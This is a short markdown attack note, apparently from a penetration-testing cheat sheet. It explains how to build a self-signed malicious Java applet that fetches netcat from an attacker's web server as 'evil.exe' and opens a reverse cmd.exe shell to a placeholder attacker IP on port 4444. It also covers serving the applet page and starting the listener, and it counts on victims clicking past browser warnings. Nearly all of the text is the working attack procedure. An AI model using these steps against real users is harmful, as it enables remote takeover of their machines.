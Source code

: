 #Java Applet run from browser
Will give warning message but users may just click yes

1. Modify the `Java.java` applet as required, in this case I change `f = Runtime.getRuntime().exec("cmd.exe /c " + expath);` to `f = Runtime.getRuntime().exec("cmd.exe /c " + expath + "YO.UR.IP.ADR 4444 -e cmd.exe");`

2. Create a manifest file using `echo "Permissions: all-permisions" > /root/manifest.txt`

3. Compile the code using `javac Java.java` then `jar cvfm Java.jar /root/manifest.txt Java.class`

4. Then generate a key `keytool -genkey -alias signapplet -keystore mykeystore -keypass mykeypass -storepass password123` answering the questions as you see fit

5. And sign the applet `jarsigner -keystore mykeystore -storepass password123 -keypass mykeypass -signedJar SignedJava.jar Java.jar signapplet`

6. Copy the files to your web root `cp Java.class SignedJava.jar /var/www`

7. Then create a html file to serve your applet `echo	'<applet width="1" height="1" id="Java Secure" code="Java.class" archive="SignedJava.jar"><param name="1" value="http://YO.UR.IP.ADR:80/evil.exe"></applet>' > /var/www/java.html`

8. Find windows nc `locate nc.exe`

9. Copy the payload (netcat in this case) `cp /usr/share/windows-binaries/nc.exe /var/www/evil.exe`

10. Create a listener `nc -lvp 4444`

11. Ensure apache is up using `service apache2 start`

On the victims box

11. Browse to your applet and watch for a shell
